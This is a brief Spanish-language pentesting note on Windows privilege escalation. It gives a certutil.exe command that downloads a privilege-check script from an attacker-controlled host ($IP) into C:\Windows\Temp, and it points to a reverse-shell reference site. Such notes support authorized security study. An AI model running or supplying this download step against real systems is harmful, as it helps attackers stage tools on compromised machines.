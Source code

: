 ## Windowsprivchecker.bat

Utilizado para Windows sin Powershell
Pasar a la maquina 
```
certutil.exe -urlcache -split -f "http://$IP/windowsprivchecker.bat" C:\Windows\Temp\privesc.bat < recomendacion por permisos de escritura 
```

Reverse shells 
https://www.puckiestyle.nl/

